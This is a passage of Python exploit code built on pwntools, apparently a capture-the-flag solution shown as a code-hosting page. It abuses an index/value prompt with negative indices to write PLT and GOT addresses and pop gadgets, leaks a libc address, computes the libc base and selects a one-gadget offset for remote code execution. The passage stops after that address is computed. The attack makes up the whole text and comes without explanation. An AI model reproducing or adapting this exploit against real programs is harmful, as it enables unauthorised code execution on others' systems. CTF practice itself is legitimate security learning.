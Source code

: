 ```python
ret = read_until(io, b"index: ")
print(ret)
io.send(b"7\n")
ret = read_until(io, b"value: ")
addr = str(0)
io.send(addr.encode("utf-8") + b"\n")

ret = read_until(io, b"index: ")
print(ret)
io.send(b"8\n")
ret = read_until(io, b"value: ")
addr = str(addr_plt_read)
io.send(addr.encode("utf-8") + b"\n")

ret = read_until(io, b"index: ")
print(ret)
io.send(b"9\n")
ret = read_until(io, b"value: ")
addr = str(addr_plt_atol)
io.send(addr.encode("utf-8") + b"\n")

ret = read_until(io, b"index: ")
print(ret)
io.send(b"-10\n")
ret = read_until(io, b"value: ")
print(ret)
addr = str(addr_5pop)
io.send(addr.encode("utf-8") + b"\n")

ret = read_until(io, b"index: ")
print(ret)
io.send(b"-4\n")
ret = read_until(io, b"value: ")
print(ret)
addr = str(addr_3pop)
io.send(addr.encode("utf-8") + b"\n")

ret = read_until(io, b"index: ")
print(ret)
io.send(b"-2\n")
ret = read_until(io, b"value: ")
print(ret)
io.send(str(addr_got_atol).encode("utf-8") + b"\n")

ret = read_until(io, b"index: ")
print(ret)
addr = pwn.p64(addr_pop_rdi)
io.send(addr + b"\n")

ret = io.read(100)
ret = ret + b"\x00\x00"

addr_libc = pwn.u64(ret)
print("%x" % addr_libc)
print("ret")
print(len(ret))
print(ret)
sys.stdout.flush()

addr_libc_base = addr_libc - 0x64e80
#addr_rce = addr_libc_base + 0x4f2c5
addr_rce = addr_libc_base + 0x4f322
#addr_rce = addr_libc_base + 0x10a38c
```